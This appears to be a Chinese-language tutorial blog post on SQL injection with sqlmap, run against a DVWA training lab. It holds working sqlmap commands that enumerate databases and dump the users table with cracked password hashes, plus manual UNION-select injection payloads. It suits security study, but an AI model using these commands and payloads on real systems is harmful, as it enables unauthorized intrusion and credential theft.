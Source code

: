 ```yaml
---
title: SQL注入-sqlmap详解
author: Pandaho
date: 2022-01-25 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/sql-injection/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



```
Boolean-based blind SQL injection      基于布尔的盲注，即可以根据返回页面判断条件真假的注入；
Error-based queries SQL injection      基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；
Inline queries SQL injection           基于内联视图注入, 内联视图能够创建临时表，在处理某些查询情况时十分有用。
Stacked queries SQL injection      堆查询注入，可以同时执行多条语句的执行时的注入。
Time-based blind SQL injection     基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；
UNION query SQL injection      联合查询注入，可以使用union的情况下的注入；
```




## 发现SQL注入漏洞后，如何收集数据库结构信息？

​	以DVWA为例，在找到注入点后，我用sqlmap进行数据收集

```sql
sqlmap -u "http://192.168.x.x/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=xxxxxx; security=low" --batch --dbs
--batch #不会询问你输入 全部默认确定
可以爆出目标数据库
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema

--batch -D dvwa --tables 
-D “” #指定数据库名
--tables  数据库表
知道数据库后，可以爆出表
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

--batch -D dvwa -T users  --columns
–columns #列出字段
-T “” #指定表名
知道表后，再爆字段
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+

--batch -D dvwa -T users  -C user,password --dump --stop 5
知道字段后爆内容，并且进行解密
-C “” #指定字段
–dump  #列出指定数据库的表的字段的数据
--stop xxx #输出指定字段数量
Database: dvwa                                                                                        Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+

--batch -D dvwa --count 
--count  #爆出用户条目
Database: dvwa
+-----------+---------+
| Table     | Entries |
+-----------+---------+
| users     | 5       |
| guestbook | 1       |
+-----------+---------+

```

或者通过SQL函数

```sql
1' union select 1,database() #
可以查询到当前数据库
1' union select 1,version() #
可以查询到版本信息
1' union select 1,system_user() #
可以查询到系统用户名
1' union select 1,user() #
可以查询到数据库用户名
1' union select 1,current_user() #
可以查询到当前用户名
1' union select 1,session_user() #
可以查询到连接数据库的用户名
1' union select 1,@@datadir #
可以查询到数据存储路径
1' union select 1,@@basedir #
可以查询到数据库安装路径
1' union select 1,@@version_compile_os #
可以查询到安装版本信息
```









## 参考来源

[MD5解密](https://www.cmd5.com/)  
[cookie](https://support.huaweicloud.com/vss_faq/vss_01_0146.html)  
[SQL详解](https://blog.csdn.net/weixin_44288604/article/details/120680334)  
